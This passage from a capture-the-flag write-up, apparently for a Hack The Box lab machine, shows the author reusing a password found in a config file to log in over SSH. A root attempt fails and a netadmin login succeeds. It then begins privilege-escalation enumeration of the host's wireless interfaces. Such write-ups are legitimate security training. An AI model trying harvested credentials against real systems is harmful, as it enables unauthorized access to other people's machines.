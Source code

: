 Whenever I encounter a password, especially if reused in a config file, I attempt to use it for authentication. It's a common occurrence for users to reuse passwords, and I've observed this in numerous engagements. In this case, the administrator had indeed reused the password for the SSH account.
```
[zonifer@dell config]$ ssh root@10.10.11.247
root@10.10.11.247's password:  VeRyUniUqWiFIPasswrd1!            Permission denied, please try again.

[zonifer@dell config]$ ssh netadmin@10.10.11.247
netadmin@10.10.11.247's password: VeRyUniUqWiFIPasswrd1!  
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-162-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri 15 Sep 2023 05:20:27 AM UTC

  System load:            0.0
  Usage of /:             68.1% of 4.76GB
  Memory usage:           12%
  Swap usage:             0%
  Processes:              228
  Users logged in:        0
  IPv4 address for eth0:  10.10.11.247
  IPv6 address for eth0:  dead:beef::250:56ff:feb9:d30e
  IPv4 address for wlan0: 192.168.1.1
  IPv4 address for wlan1: 192.168.1.23


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Thu Sep 14 20:01:26 2023 from 10.10.14.7
netadmin@wifinetic:~$ 
```

## Priv Esc
Upon conducting basic system enumeration, it became apparent that there are five interfaces associated with this device. Firstly, `eth0` serves as the wired connection used for SSH access. Subsequently, `mon0` likely represents a wireless card functioning in monitor mode, commonly employed for troubleshooting and wireless testing. Moving forward, `wlan1` seems linked to a network and is likely associated with a wireless device, given its name. Conversely, `wlan2`, while likely a wireless network interface card (NIC), lacks an assigned IP address, indicating it's not currently connected to any network. Lastly, `wlan0` stands out with its intriguing IP address of 192.168.1.1. It's highly probable that this interface plays a role in network routing functions.
